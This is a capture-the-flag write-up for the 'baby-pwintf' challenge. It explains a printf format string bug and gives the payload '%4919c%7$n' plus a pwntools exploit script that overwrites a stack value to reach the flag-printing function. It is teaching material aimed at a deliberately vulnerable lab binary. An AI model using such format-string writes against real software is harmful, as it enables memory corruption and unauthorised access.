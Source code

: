 # baby-pwintf

## Challenge

The program has some similarities to a previous challenge, "echowo".
It asks the user for their name, then repeats it using `printf`.

This challenge is different as the flag is no longer stored in memory during normal execution.
This means we can't use the same trick as last time by printing the flag from the stack.

After the server repeats our name, it rates it out of 10.
If we get a rating of 0x1337, the server will print the flag:

```c
printf("I rate your name %d / 10\n", *rating);

if (*rating == 0x1337) {
    puts("Nice name! here's a flag:");
    win();
}
```

However, this is not possible during normal execution,
as the rating generated is in the range [0, 11]:

```c
*rating = input[0] % 11;
```

## Solution

This challenge contains the same format string vulnerability as "echowo".

If we could change the value stored at `rating` to 0x1337, the program would print the flag.

Let's look at a less common format specifier for `printf`:

```
n      The number of characters written so far is stored into the
       integer pointed to by the corresponding argument.  That
       argument shall be an int *, or variant whose size matches
       the (optionally) supplied integer length modifier.  No
       argument is converted.  (This specifier is not supported
       by the bionic C library.)  The behavior is undefined if
       the conversion specification includes any flags, a field
       width, or a precision.
```

Using `%n`, we can write the number of characters written so far at an address if we have a pointer.
Fortunately, `rating` is a pointer to the value we want to change and it is stored on the stack.
It can be accessed just like the char pointer in "echowo", except this time we will use `%n` to
overwrite the value at the address.

Unfortunately, we can't just write 0x1337 characters in front, because our input buffer is only 16
bytes long.
Again, we will consult the `printf` man page:

```
The overall syntax of a conversion specification is:

    %[$][flags][width][.precision][length modifier]conversion

...

Field width
    An optional decimal digit string (with nonzero first digit)
    specifying a minimum field width.
```

So if we wrote something like `%10c`, it would print the character specified by an argument,
padded to a minimum length of 10 characters.
For our exploit, instead of printing 0x1337 characters ourselves,
we can use `%4919c` which will expand to 0x1337 characters.

Using the same technique as in "echowo", we can find the offset to `rating`,
which in this case is also the 7th argument.
One leading element will be consumed by the padded character to give us the correct length.
The other elements, we can skip using `%c` and subtract the length by the number of characters skipped,
but this would make our payload exceed the limit of 15 characters.

Instead, we can access the 7th argument using the '$' style format specifier:

```
One can also specify explicitly which argument is taken,
at each place where an argument is required, by writing "%m$"
instead of '%' and "*m$" instead of '*', where the decimal
integer m denotes the position in the argument list of the
desired argument, indexed starting from 1.
```

The 7th element can be written to using `%7$n`.

Thus, our final payload looks like this: `%4919c%7$n`.

This will print 4919 characters, then write that same number into the address pointed at by the
7th argument.
This value is equal to 0x1337, which will cause the program to print the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1445 baby-pwintf
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('baby-pwintf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1445)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"Tell me your name and I'll rate it!", "%{}c%7$n".format(0x1337).encode())

io.interactive()
```

## Flag

```
maple{youwe_weady_fow_the_big_boy_chawwenge}
```
